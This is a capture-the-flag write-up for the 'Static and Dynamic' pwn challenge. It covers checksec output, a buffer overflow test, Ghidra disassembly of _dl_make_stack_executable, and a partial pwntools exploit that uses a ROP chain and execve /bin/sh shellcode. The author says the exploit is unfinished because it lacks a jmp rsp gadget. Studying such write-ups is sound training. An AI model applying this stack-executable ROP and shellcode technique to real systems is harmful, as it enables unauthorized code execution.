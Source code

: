 # The Tale of the Really SAD binary

Static and Dynamic was an interesting challenge for me. I was able to figure
this out; however, I had to try two different methods in order to successfully
get it. The method of using syscalls already has a writeup for it. You can
[click here](https://ctftime.org/task/12566) to view them. Rather I will show
you how I tried to solve this challenge and how I was *almost* successful.

The first thing that I did was run `checksec` on it.  
```bash  
$ checksec sad  
[*] '/home/wittsend2/Documents/hacktivitycon-ctf/pwn/sad/sad'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

The weird part to me was that there was a canary. So I tried testing it out by
running it.

```bash  
wittsend2@ubuntu:[~/Documents/hacktivitycon-ctf/pwn/sad]  
$ python -c "print('A'*264)"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
wittsend2@ubuntu:[~/Documents/hacktivitycon-ctf/pwn/sad]  
$ ./sad  
This is a really big binary. Hope you have everything you need ;)  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
Segmentation fault (core dumped)  
wittsend2@ubuntu:[~/Documents/hacktivitycon-ctf/pwn/sad]  
$  
```  
Hmmm, doesn't actually seems like there was a canary; thus, I will ignore that
it was enabled. I also figured out that it took 256 bytes to start to overflow
the buffer; thus, I will use that when crafting my exploit.

Lets see if we can reverse this binary and find something interesting. When
looking through the binary in Ghidra, I found this function called:
`_dl_make_stack_executable`, and my brain thought it hit jackpot.

Let's break down this file and see what we need to do.

```C  
ulong _dl_make_stack_executable(ulong *param_1)

{  
 int iVar1;  
 undefined4 extraout_var;  
 long in_FS_OFFSET;  
  
 iVar1 = mprotect((void *)(-_dl_pagesize &
*param_1),_dl_pagesize,__stack_prot);  
 if (iVar1 == 0) {  
   *param_1 = 0;  
   _dl_stack_flags = _dl_stack_flags | 1;  
   return CONCAT44(extraout_var,iVar1);  
 }  
 return (ulong)*(uint *)(in_FS_OFFSET + -0x40);  
}  
```  
```assembly  
                            **************************************************************  
                            *                          FUNCTION                          *  
                            **************************************************************  
                            undefined _dl_make_stack_executable()  
            undefined         AL:1           <RETURN>  
                            _dl_make_stack_executable                       XREF[4]:     Entry Point(*),   
                                                                                         _dl_map_object_from_fd.constprop  
                                                                                         004a69b0(*), 004af138(*)    
       0046c120 f3 0f 1e fa     ENDBR64  
       0046c124 48 8b 35        MOV        RSI,qword ptr [_dl_pagesize]                     = 0000000000001000h  
                ed 2f 04 00  
       0046c12b 8b 15 bf        MOV        EDX,dword ptr [__stack_prot]                     = 01000000h  
                1d 04 00  
       0046c131 53              PUSH       RBX  
       0046c132 48 89 fb        MOV        RBX,RDI  
       0046c135 48 89 f7        MOV        RDI,RSI  
       0046c138 48 f7 df        NEG        RDI  
       0046c13b 48 23 3b        AND        RDI,qword ptr [RBX]  
       0046c13e e8 2d 3b        CALL       mprotect                                         int mprotect(void * __addr, size  
                fd ff  
       0046c143 85 c0           TEST       EAX,EAX  
       0046c145 75 19           JNZ        LAB_0046c160  
       0046c147 48 c7 03        MOV        qword ptr [RBX],0x0  
                00 00 00 00  
       0046c14e 5b              POP        RBX  
       0046c14f 83 0d b2        OR         dword ptr [_dl_stack_flags],0x1                  = 00000007h  
                2f 04 00 01  
       0046c156 c3              RET  
       0046c157 66              ??         66h    f  
       0046c158 0f              ??         0Fh  
       0046c159 1f              ??         1Fh  
       0046c15a 84              ??         84h  
       0046c15b 00              ??         00h  
       0046c15c 00              ??         00h  
       0046c15d 00              ??         00h  
       0046c15e 00              ??         00h  
       0046c15f 00              ??         00h  
                            LAB_0046c160                                    XREF[1]:     0046c145(j)    
       0046c160 48 c7 c0        MOV        RAX,-0x40  
                c0 ff ff ff  
       0046c167 5b              POP        RBX  
       0046c168 64 8b 00        MOV        EAX,dword ptr FS:[RAX]  
       0046c16b c3              RET  
       0046c16c 0f              ??         0Fh  
       0046c16d 1f              ??         1Fh  
       0046c16e 40              ??         40h    @  
       0046c16f 00              ??         00h  
```

From what we are looking at, it seems that it is awrapper for `mprotect()`. It
takes `__stack_prot` as a parameter, which determines whether `NX` is enabled.
After doing some research, I realized that the value of `__stack_prot` needed
to be `7` so that it can be executable (this is done through a ROP chain).
Afterwards, we can jump to the stack with shellcode. Here is what I crafted
for the exploit so far. There is a slight issue with it, can you see it?:

```py  
from pwn import *

local = True

if local == True:  
   elf = ELF('./sad')  
   p = elf.process()  
else:  
   p = remote("jh2i.com", 50002)

shellcode =
b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"  
log.info(len(shellcode))  
nops = b'\x90'*(264) #- len(shellcode))

with open("symbols.txt", "w") as f:  
   f.write(str(elf.symbols.keys()))

rbp = p64(0x402d00)  
pop_rsi_ret = p64(0x407aae) #pop rrsi; ret  
pop_rax_ret = p64(0x43f8d7) #pop eax; ret  
pop_rcx_ret = p64(0x4073e3) #pop rcx; ret  
pop_rsp_ret = p64(0x40299b) #pop rsp; ret  
pop_rdi_ret = p64(0x403434) #pop rdi ; ret  
#mov_rsi_ret = p64(0x46b8a5) #mov qword ptr [rsi] ; rax ; ret  
addr_exec_stack = p64(elf.symbols['_dl_make_stack_executable'])  
print("_dl_make_stack_executable function location: " + str(addr_exec_stack))  
addr_stack_prot = p64(elf.symbols['__stack_prot'])  
print("Stack prot variable: " + str(addr_stack_prot))  
libc_stack_end = p64(elf.symbols['__libc_stack_end'])  
print("Stack end: " + str(libc_stack_end))

payload = nops  
payload += pop_rsi_ret  
payload += addr_stack_prot  
payload += pop_rax_ret  
payload += p64(0x7)  
# payload += mov_rsi_ret

payload += pop_rdi_ret  
payload += libc_stack_end  
payload += addr_exec_stack  
# NEED JMP_RSP  
payload += shellcode

with open("payload.txt", "wb") as f:  
   f.write(payload)  
#leave_ret = p64(0x401e25)

# print(elf.symbols['puts'])  
# payload = shellcode + nops + leave_ret + addr

p.recvuntil("This is a really big binary. Hope you have everything you need
;)")  
p.sendline(payload)  
p.interactive()  
```

The issue is that we need an address to `jmp rsp`; however, when using
ROPgadget, I was unable to find it. This is the fianl piece to test further
whether stack. It is likely that **I might need to make adjustments after
finding jmp rsp**; however, I wanted to share the concept of this path to the
exploit with everyone. If you have any questions for me, please reach out to
me on [The Ragnar Security Twitter](https://twitter.com/ragnarsecurity).  

Original writeup (https://github.com/WittsEnd2/hacktivitycon-ctf-
writeups/tree/master/Static_And_Dynamic).
